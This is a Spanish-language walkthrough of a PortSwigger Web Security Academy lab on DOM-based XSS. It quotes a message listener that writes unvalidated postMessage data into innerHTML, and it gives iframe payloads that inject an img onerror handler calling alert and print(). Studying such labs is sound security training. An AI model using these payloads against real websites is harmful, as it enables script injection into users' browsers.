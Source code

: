 ```yaml
---
description: >-
  https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages
---
```


# Lab 1: DOM XSS using web messages

Primero analizamos el codigo fuente y se detecta un codigo javascript interesante:

```html
<!-- Ads to be inserted here -->
<div id='ads'></div>
<script>
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
})
</script>
```

* La función `innerHTML` asigna directamente el contenido HTML al elemento `div` con id `ads`.
* Si el contenido (`e.data`) incluye código HTML o JavaScript, este será interpretado y ejecutado por el navegador.

Teniendo en cuenta lo anterior y adicionalmente la ausencia de la cabecera de x-frame-options:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 11084
```

Se procede a crear un HTML con el siguiente payload:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(2024)>','*')">
```
{% endcode %}

Y lo anterior, nos genera el siguiente comportamiento:

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

El siguiente payload nos ayudara a resolver el ejercicio:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
{% endcode %}
